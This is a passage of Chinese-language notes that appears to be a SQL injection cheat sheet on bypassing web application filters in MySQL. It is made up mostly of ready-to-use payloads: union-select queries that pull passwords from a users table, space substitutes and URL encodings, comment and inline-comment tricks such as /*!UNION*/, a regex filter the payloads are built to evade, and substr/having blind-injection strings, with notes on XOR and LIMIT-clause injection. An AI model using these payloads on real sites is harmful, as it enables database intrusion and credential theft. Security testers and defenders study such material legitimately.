 ```sql
union [all|distinct] select pass from users#，  
union%a0select pass from users，  
```
#### 空格

空格：%20, %09, %0a, %0b, %0c, %0d, %a0
还有一些可以利用括号或者注释  and，or：||，&&  union select：  
括号:

```sql
'and(true)like(false)union(select(pass)from(users))，  
```

注释，常见注释符有：//，--，/**/，--+，-- -，可以使用注释来规避空格
内联注释：/!*XXXX*/；只存在mysql中。

```sql
id=-15 %55nION/**/%53ElecT 1,2,3,4　
id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
```

#### 子查询进行盲注 

```
and length((select pass from users having substr(pass,1,1)='a'))  
having：and(select substr(group_concat(pass),1,1)from users)='a  
select ... from(过滤代码如/SELECTs+[A-Za-z.]+s+FROM/i/i)：  
select [all|distinct] pass from users  
select`table_name`from`information_schema` . `tables`  
select pass as alias from users  
select pass aliasalias from users  
select pass`alias alias`from users  
select+pass%a0from(users)  
select,and,&：  
```

### 异或运算的sql注入

运算符为^ 或者 xor,运算符前后同真同假为0，运算符前后不同为1。null与任何条件（真、假、null）做异或，结果都为null.

### like&limit

当注入点存在与limit子句时，union联合查询不能在order by子句之后。
补充select 语法：

```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name' export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
